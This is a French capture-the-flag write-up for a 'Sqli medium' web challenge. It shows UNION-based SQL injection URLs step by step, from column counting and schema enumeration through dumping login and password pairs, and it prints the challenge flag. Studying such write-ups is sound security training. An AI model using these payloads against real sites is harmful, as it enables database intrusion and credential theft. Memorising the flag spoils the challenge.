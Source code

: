 # Write up : Sqli medium #

Catégorie :

```
Web
```

Consigne : 

```
Trouvez les identifiants de connexion.<p>

<FONT COLOR="#ff0000">Accès au site :<br>   <a href="http://game2.marshack.fr:8082" target="new">http://game2.marshack.fr:8082</a></FONT> <p>

```

Pièce jointe :

```
Aucune
```

Serveur :

```
game2
```

Points attribués : 

```
30
```

Flag : 

```
MARS{Uni0nIs4nAw353m3Op710n}
```



![](Sqli_medium-images/sqli medium.png)





![](Sqli_medium-images/sqli_medium2.png)



Arrivé sur l'épreuve, on remarque que les articles sont stockés en base de données via un id.

On tente de générer une erreur en exécutant une commande SQL incorrecte (en utilisant quote ou double-quote, par exemple).

![](Sqli_medium-images/sqli_medium4.png)

On voit que l'on à affaire à une base de données SQL.

Modifier l'url pour demander un article qui ne peut pas exister :

````
http://game2.marshack.fr:8082/?id=-1
````

Aucune erreur soulevée par MySQL, ça veut dire qu'il y a une vulnérabilité de type injection SQL.

Nous devons ensuite trouver le nombre d'arguments nécessaires pour que l'injection via UNION puisse fonctionner.
Pour ceci, il suffit d'utiliser une clause ORDER BY :

```
http://game2.marshack.fr:8082/?id=-1' ORDER BY 3 -- -
```

![](Sqli_medium-images/sqli_medium3.png)



Erreur SQL, il y a moins de 3 arguments, tentons avec 2.

````
http://game2.marshack.fr:8082/?id=-1' ORDER BY 2 -- -
````

Aucune erreur, donc le nombre d'argument est bien 2.

Testons ceci :

```
http://game2.marshack.fr:8082/?id=-1' UNION SELECT 1,2 -- -
```

![](Sqli_medium-images/sqli_medium5.png)



Cette astuce permet de déterminer le nombre de champs composant la requête SQL.

Aprés plusieurs tentatives il s'avére que la requête contient deux champs.

Récupérons le nom des tables existantes.

````
http://game2.marshack.fr:8082/?id=-1' UNION SELECT 1,group_concat(table_name) FROM information_schema.tables -- -
````



![](Sqli_medium-images/sqli_medium6.png)

On remarque deux tables intéressantes : "articles" et "my_super_strange_table_of_things".

Voyons voir le nom des colonnes.

```
http://game2.marshack.fr:8082/?id=-1' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns where table_schema=database() -- -
```
![](Sqli_medium-images/sqli_medium7.png)



Le nom des colonnes apparaît.

````sql
id,name,content,id,login,password
````

Le nom des colonnes et le nom des tables sont dès à présent disponibles. On va donc récupérer le login et le mot de passe.

```
http://game2.marshack.fr:8082/?id=-1' UNION SELECT 1,group_concat(login, 0x3a, password) FROM my_super_strange_table_of_things -- -
```

![](Sqli_medium-images/sqli_medium8.png)



Les logins et mot de passe apparaissent, on peut donc tenter de se connecter via la page admin.php.

On obtient donc le flag.

Flag : MARS{Uni0nIs4nAw353m3Op710n}